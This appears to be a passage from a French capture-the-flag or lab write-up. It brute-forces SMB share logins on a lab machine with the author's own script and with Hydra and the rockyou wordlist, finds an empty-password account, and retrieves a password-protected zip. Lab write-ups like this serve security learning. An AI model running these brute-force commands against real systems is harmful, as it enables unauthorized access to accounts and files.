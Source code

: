 Pour l'occasion j'ai mis à jour mon script de bruteforce des partages SMB : [GitHub - devl00p/brute_smb_share: Brute force a SMB share](https://github.com/devl00p/brute_smb_share)

On détecte désormais qu'on peut accéder au partage via le compte `smb` et mot de passe vide.

```console
$ python3 brute_smb_share.py 192.168.56.218 'smb' users.txt pass.txt 
        main.txt
        safe.zip
Success with user smb and empty password
```

Hydra est aussi capable de trouver le mot de passe vide, mais il affiche une erreur bizarre pour les autres utilisateurs et l'indication du mot de passe vide n'est pas explicite :

```console
$ hydra -u -e nsr -L users.txt -P wordlists/rockyou.txt smb://192.168.56.218
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 43033152 login tries (l:3/p:14344384), ~43033152 tries per task
[DATA] attacking smb://192.168.56.218:445/
[445][smb] Host: 192.168.56.218 Account: sagar Error: Invalid account (Anonymous success)
[445][smb] Host: 192.168.56.218 Account: blackjax Error: Invalid account (Anonymous success)
[445][smb] host: 192.168.56.218   login: smb
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Sans connaître le nom du partage `smb`, mon script fonctionne aussi sur le partage d'imprimantes :

```console
$ python3 brute_smb_share.py 192.168.56.218 'print$' users.txt pass.txt
        W32X86
        W32MIPS
        W32PPC
        x64
        WIN40
        IA64
        COLOR
Success with user smb and empty password
```

## Cap ou pas cap ?

Revenons au partage `smb`. On trouve dessus une archive zip contenant un enregistrement réseau :

```console
$ unzip -l safe.zip 
Archive:  safe.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
    62471  2018-08-14 21:59   secret.jpg
  6920971  2019-11-04 07:34   user.cap
---------                     -------
  6983442                     2 files
$ unzip safe.zip 
Archive:  safe.zip
[safe.zip] secret.jpg password:
```
